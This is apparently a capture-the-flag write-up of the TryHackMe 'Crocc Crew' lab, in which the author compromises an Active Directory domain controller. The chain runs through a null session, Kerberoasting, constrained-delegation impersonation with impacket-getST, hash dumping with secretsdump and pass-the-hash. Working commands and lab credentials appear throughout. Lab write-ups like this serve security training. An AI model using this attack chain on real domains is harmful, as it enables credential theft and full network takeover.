









This box is rated insane difficulty on THM and has a general theme of hacking an already compromised Domain Controller to discover the trail left behind by the Crocc Crew APT group. 

It involves us grabbing a null session over RDP to gather low-level user credentials on the domain. We can use those to Kerberoast a password reset account, whose hash is easy crackable. That account has Constrained Delegation privileges, allowing us to impersonate the Administrator to grab a TGT and dump all domain hashes.

_Crocc Crew has created a backdoor on a Cooctus Corp Domain Controller. We're calling in the experts to find the real back door!_

## Host Scanning
As always, I begin with an Nmap scan against the target IP to find all running service on the host; Repeating the same for UDP returns the typical AD ports.

```
$ sudo nmap -sCV 10.67.131.168 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-25 01:58 -0400
Nmap scan report for 10.67.131.168
Host is up (0.045s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-25 05:58:17Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: COOCTUS.CORP, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: COOCTUS.CORP, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-04-25T05:59:00+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: COOCTUS
|   NetBIOS_Domain_Name: COOCTUS
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: COOCTUS.CORP
|   DNS_Computer_Name: DC.COOCTUS.CORP
|   Product_Version: 10.0.17763
|_  System_Time: 2026-04-25T05:58:20+00:00
| ssl-cert: Subject: commonName=DC.COOCTUS.CORP
| Not valid before: 2026-04-24T05:50:46
|_Not valid after:  2026-10-24T05:50:46
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-04-25T05:58:24
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.51 seconds
```

Looks like a Windows machine with Active Directory components installed on it, more specifically a Domain Controller. Default scripts reveal the Fully Qualified Domain Name of `DC.COOCTUS.CORP` which I add to my `/etc/hosts` file. Since there is a web server up and running, I fire up Ffuf to search for subdirectories and Vhosts in the background.

## Service Enumeration
Using Netexec to test for Guest/Null authentication over SMB both fail.

```
$ nxc smb dc.cooctus.corp -u '' -p '' --shares

$ nxc smb dc.cooctus.corp -u 'Guest' -p '' --shares
```



### No Guest Authentication
RPC is not configured for null logons and LDAP doesn't allow anonymous binds, really only leaving us with the web server to grab initial domain creds.

```
$ rpcclient dc.cooctus.corp -U ''

$ netexec ldap dc.cooctus.corp -u '' -p '' --query "(objectClass=*)" ""
```



Checking out the landing page on port 80 reveals a defaced website showing that they have been hacked by the Crocc Crew. Near the page's footer, we are given a list of aliases belonging to that group, which I create a wordlist out of in case any artefacts left behind match these names.



### Web Rabbit Holes
Looking at **robots.txt** gives us a few interesting endpoints.

```
$ curl http://dc.cooctus.corp/robots.txt 
User-Agent: *
Disallow:
/robots.txt
/db-config.bak
/backdoor.php
```

The **db.config.bak** file holds a pair of database credentials for a user named _C00ctusAdm1n_, however they don't work for any user to authenticate to the domain.

```
$ curl http://dc.cooctus.corp/db-config.bak
<?php

$servername = "db.cooctus.corp";
$username = "C00ctusAdm1n";
$password = "B4dt0th3b0n3";

// Create connection $conn = new mysqli($servername, $username, $password);

// Check connection if ($conn->connect_error) {
die ("Connection Failed: " .$conn->connect_error);
}

echo "Connected Successfully";

?>
```

The **backdoor.php** page prompts us with an interactive console that doesn't seem to take in any commands.



Taking a peek at the source code shows a script in the HTML that describes a function named "what".

```
<script>
$('body').terminal({
    hello: function(what) {
        this.echo('Hello, ' + what +
                  '. Wellcome to this terminal.');
    }
}, {
    greetings: 'CroccCrew >:)'
});
</script>
```

A bit of messing around with it shows that we can use the hello command along with a parameter, resulting in a line that greets us by name of the argument.



Since it reflected our user-supplied input, I tried testing for command injection but nothing really came of it. It seemed like everything we've found so far were rabbit holes and no credentials worked to authenticate, which got me thinking how we could login without being a user.

## Exploitation

### Null Sessions
A bit of research reveals that we can actually grab a [null session](https://learn.microsoft.com/en-us/windows/win32/rpc/null-sessions) over RPC. This command differs from my earlier attempt as it explicitly states that we have no username and password, while only using `-U ''` will fail once we enter the password as it's technically incorrect.

```
$ rpcclient -U''%'' 10.67.131.168
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomgroups
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumprivs
found 35 privileges

SeCreateTokenPrivilege          0:2 (0x0:0x2)
SeAssignPrimaryTokenPrivilege           0:3 (0x0:0x3)
SeLockMemoryPrivilege           0:4 (0x0:0x4)
SeIncreaseQuotaPrivilege                0:5 (0x0:0x5)
SeMachineAccountPrivilege               0:6 (0x0:0x6)
SeTcbPrivilege          0:7 (0x0:0x7)
SeSecurityPrivilege             0:8 (0x0:0x8)
SeTakeOwnershipPrivilege                0:9 (0x0:0x9)
SeLoadDriverPrivilege           0:10 (0x0:0xa)
SeSystemProfilePrivilege                0:11 (0x0:0xb)
SeSystemtimePrivilege           0:12 (0x0:0xc)
SeProfileSingleProcessPrivilege                 0:13 (0x0:0xd)
SeIncreaseBasePriorityPrivilege                 0:14 (0x0:0xe)
SeCreatePagefilePrivilege               0:15 (0x0:0xf)
SeCreatePermanentPrivilege              0:16 (0x0:0x10)
SeBackupPrivilege               0:17 (0x0:0x11)
SeRestorePrivilege              0:18 (0x0:0x12)
SeShutdownPrivilege             0:19 (0x0:0x13)
SeDebugPrivilege                0:20 (0x0:0x14)
SeAuditPrivilege                0:21 (0x0:0x15)
SeSystemEnvironmentPrivilege            0:22 (0x0:0x16)
SeChangeNotifyPrivilege                 0:23 (0x0:0x17)
SeRemoteShutdownPrivilege               0:24 (0x0:0x18)
SeUndockPrivilege               0:25 (0x0:0x19)
SeSyncAgentPrivilege            0:26 (0x0:0x1a)
SeEnableDelegationPrivilege             0:27 (0x0:0x1b)
SeManageVolumePrivilege                 0:28 (0x0:0x1c)
SeImpersonatePrivilege          0:29 (0x0:0x1d)
SeCreateGlobalPrivilege                 0:30 (0x0:0x1e)
SeTrustedCredManAccessPrivilege                 0:31 (0x0:0x1f)
SeRelabelPrivilege              0:32 (0x0:0x20)
SeIncreaseWorkingSetPrivilege           0:33 (0x0:0x21)
SeTimeZonePrivilege             0:34 (0x0:0x22)
SeCreateSymbolicLinkPrivilege           0:35 (0x0:0x23)
SeDelegateSessionUserImpersonatePrivilege               0:36 (0x0:0x24)
```

We can do the same for other services, eventually finding Visitor credentials on a digital sticky note over RDP.

```
$ rdesktop -f -u '' 10.67.131.168
```



### Mapping AD with BloodHound
These do not work to grab an RDP session since they aren't apart of the Remote Desktop Users group, but we can authenticate to the domain now. I immediately spin up BloodHound while using [BloodHound-Python](https://github.com/dirkjanm/bloodhound.py) to collect the domain data.

```
$ bloodhound-python -c all -d cooctus.corp -u 'visitor' -p '[REDACTED]' -ns 10.67.131.168
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: cooctus.corp
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.cooctus.corp
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to GC LDAP server: dc.cooctus.corp
INFO: Connecting to LDAP server: dc.cooctus.corp
INFO: Found 23 users
INFO: Found 63 groups
INFO: Found 2 gpos
INFO: Found 13 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.COOCTUS.CORP
INFO: Done in 00M 10S
```

Letting those JSON files ingest for a bit, I take a look at SMB shares and enumerate users via Netexec. We only have read permissions to the Home share, letting us grab the user flag.

```
$ nxc smb dc.cooctus.corp -u 'visitor' -p '[REDACTED]' --shares                          
SMB         10.67.131.168   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:COOCTUS.CORP) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.67.131.168   445    DC               [+] COOCTUS.CORP\visitor:GuestLogin! 
SMB         10.67.131.168   445    DC               [*] Enumerated shares
SMB         10.67.131.168   445    DC               Share           Permissions     Remark
SMB         10.67.131.168   445    DC               -----           -----------     ------
SMB         10.67.131.168   445    DC               ADMIN$                          Remote Admin
SMB         10.67.131.168   445    DC               C$                              Default share
SMB         10.67.131.168   445    DC               Home            READ            
SMB         10.67.131.168   445    DC               IPC$            READ            Remote IPC
SMB         10.67.131.168   445    DC               NETLOGON        READ            Logon server share 
SMB         10.67.131.168   445    DC               SYSVOL          READ            Logon server share

------------------------------------------------------------------------------------------------------

$ smbclient //dc.cooctus.corp/Home -U 'visitor'
Password for [WORKGROUP\visitor]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jun  8 15:42:53 2021
  ..                                  D        0  Tue Jun  8 15:42:53 2021
  user.txt                            A       17  Mon Jun  7 23:14:25 2021

                15587583 blocks of size 4096. 11426363 blocks available
smb: \> get user.txt
getting file \user.txt of size 17 as user.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> quit
```

As for the users, we find quite a few people registered on the domain.

```
$ nxc smb dc.cooctus.corp -u 'visitor' -p '[REDACTED]' --users > UsersOut.txt
SMB         10.67.131.168   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:COOCTUS.CORP) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                                       
SMB         10.67.131.168   445    DC               [+] COOCTUS.CORP\visitor:GuestLogin! 
SMB         10.67.131.168   445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                               
SMB         10.67.131.168   445    DC               Administrator                 2021-06-08 22:00:25 5       Built-in account for administering the computer/domain                                                                                                                                                
SMB         10.67.131.168   445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain                                                                                                                                              
SMB         10.67.131.168   445    DC               krbtgt                        2021-06-08 00:35:08 0       Key Distribution Center Service Account 
SMB         10.67.131.168   445    DC               Visitor                       2021-06-08 22:00:31 0        
SMB         10.67.131.168   445    DC               mark                          <never>             0        
SMB         10.67.131.168   445    DC               Jeff                          2021-06-08 05:41:35 0        
SMB         10.67.131.168   445    DC               Spooks                        2021-06-08 05:41:48 0        
SMB         10.67.131.168   445    DC               Steve                         2021-06-08 03:13:25 0        
SMB         10.67.131.168   445    DC               Howard                        2021-06-08 03:13:44 0        
SMB         10.67.131.168   445    DC               admCroccCrew                  2021-06-08 04:42:27 0        
SMB         10.67.131.168   445    DC               Fawaz                         2021-06-08 22:00:10 0        
SMB         10.67.131.168   445    DC               karen                         2021-06-08 05:17:27 0        
SMB         10.67.131.168   445    DC               cryillic                      2021-06-08 05:17:41 0        
SMB         10.67.131.168   445    DC               yumeko                        2021-06-08 05:18:02 0        
SMB         10.67.131.168   445    DC               pars                          2021-06-08 05:18:21 0        
SMB         10.67.131.168   445    DC               kevin                         2021-06-08 05:18:35 0        
SMB         10.67.131.168   445    DC               jon                           2021-06-08 05:19:12 0        
SMB         10.67.131.168   445    DC               Varg                          2021-06-08 05:19:30 0        
SMB         10.67.131.168   445    DC               evan                          2021-06-08 05:20:19 0        
SMB         10.67.131.168   445    DC               Ben                           2021-06-08 05:20:36 0        
SMB         10.67.131.168   445    DC               David                         2021-06-08 05:20:50 0        
SMB         10.67.131.168   445    DC               password-reset                2021-06-08 22:00:39 0        
SMB         10.67.131.168   445    DC               [*] Enumerated 22 local users: COOCTUS
```

I capture that output to a file and strip everything else to create a username wordlist for the domain. We can see the presence of an account named _admCroccCrew_, which is most certainly a user left over from the previous hackers, or could serve as their backdoor into the domain.

```
$ cat UsersOut.txt | awk '{print $5}' > validusers.txt

$ tail validusers.txt
yumeko
pars
kevin
jon
Varg
evan
Ben
David
password-reset
```

## Privilege Escalation

### Kerberoasting
Out of curiosity, I check which accounts have an SPN which reveals that we can Kerberoast the _password-reset_ account.

```
$ impacket-GetUserSPNs cooctus.corp/visitor:'[REDACTED]' -dc-ip 10.67.131.168                           
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName  Name            MemberOf  PasswordLastSet             LastLogon                   Delegation  
--------------------  --------------  --------  --------------------------  --------------------------  -----------
HTTP/dc.cooctus.corp  password-reset            2021-06-08 18:00:39.356663  2021-06-08 17:46:23.369540  constrained

-------------------------------------------------------------------------------------------------------------------

$ nxc ldap dc.cooctus.corp -u 'visitor' -p '[REDACTED]' --kerberoasting kerbout.txt
LDAP        10.67.131.168   389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:COOCTUS.CORP) (signing:None) (channel binding:No TLS cert)                                                                                                                                           
LDAP        10.67.131.168   389    DC               [+] COOCTUS.CORP\visitor:GuestLogin! 
LDAP        10.67.131.168   389    DC               [*] Skipping disabled account: krbtgt
LDAP        10.67.131.168   389    DC               [*] Total of records returned 1
LDAP        10.67.131.168   389    DC               [*] sAMAccountName: password-reset, memberOf: [], pwdLastSet: 2021-06-08 18:00:39.356663, lastLogon: 2021-06-08 17:46:23.369540
LDAP        10.67.131.168   389    DC               $krb5tgs$23$*password-reset$COOCTUS.CORP$COOCTUS.CORP\password-reset*$a0158b2a3158ef938dc0cf60c1b43373$b1fd20d5ccfc46debb5df3714e4[...]
```

Sending that krb5tgs over to Hashcat or JohnTheRipper rewards us with the plaintext version almost instantly.



Seeing what permissions this account has shows that we struck a goldmine. This obviously serves as the domain's password reset account, meaning we have the _ForceChangePassword_ permission over almost all domain users, however this account is also trusted for _Constrained Delegation_.

### Constrained Delegation
If you're unfamiliar with this attack vector - Constrained delegation in Active Directory lets a specific account or service impersonate users - but only to a defined set of services (via Kerberos). If an attacker compromises an account configured for constrained delegation, they can use Kerberos (via S4U2Self/S4U2Proxy) to request service tickets as a high-privilege user like Administrator, effectively impersonating them to those services.

If those services include something powerful (like LDAP on a domain controller), the attacker can act as Administrator and modify the domain, leading to full takeover. Using Impacket's [findDelegation.py](https://github.com/fortra/impacket/blob/master/examples/findDelegation.py) script to reveal where we have delegation rights to gives us a few SPNs.

```
$ impacket-findDelegation cooctus.corp/password-reset:'[REDACTED]' -dc-ip 10.67.131.168
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

AccountName     AccountType  DelegationType                      DelegationRightsTo                   SPN Exists 
--------------  -----------  ----------------------------------  -----------------------------------  ----------
DC$             Computer     Unconstrained                       N/A                                  Yes        
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC.COOCTUS.CORP/COOCTUS.CORP  No         
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC.COOCTUS.CORP               No         
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC                            No         
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC.COOCTUS.CORP/COOCTUS       No         
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC/COOCTUS                    No
```

Now we can use Impacket's [getST.py](https://github.com/fortra/impacket/blob/master/examples/getST.py) script to impersonate the Administrator using that SPN and grab a TGT. We'll also need to export it to the `KRB5CCNAME` variable for use in the next step, as Kerberos likes it that way.

```
$ impacket-getST -spn 'oakley/DC.COOCTUS.CORP' -impersonate 'administrator' cooctus.corp/password-reset:'resetpassword' -dc-ip 10.67.131.168
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@oakley_DC.COOCTUS.CORP@COOCTUS.CORP.ccache
                                                                                                                                                          
$ export KRB5CCNAME=administrator@oakley_DC.COOCTUS.CORP@COOCTUS.CORP.ccache 
```

Finally, we can utilize this Administrator TGT to dump all domain hashes via Impacket's [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) script.

```
$ impacket-secretsdump -k -no-pass DC.COOCTUS.CORP
```



We're granted the Administrator's NTLM which can be used in a Pass-The-Hash over SMB or another service to get a shell on the domain with full privileges.

```
$ impacket-smbexec -hashes ':[REDACTED]' COOCTUS.CORP/administrator@DC.COOCTUS.CORP
```



Grabbing the root flag under `C:\Perflogs\Admin` as well as the other flags under `C:\Shares\Home` will complete this box. It seems like we may have skipped a few steps with the delegation abuse, but I'll take any shortcut to Domain Admin.

Overall, this box's difficulty lays in the amount of rabbit holes, rather than overly complicated AD abuse. I hope this was helpful to anyone following along or stuck and happy hacking!
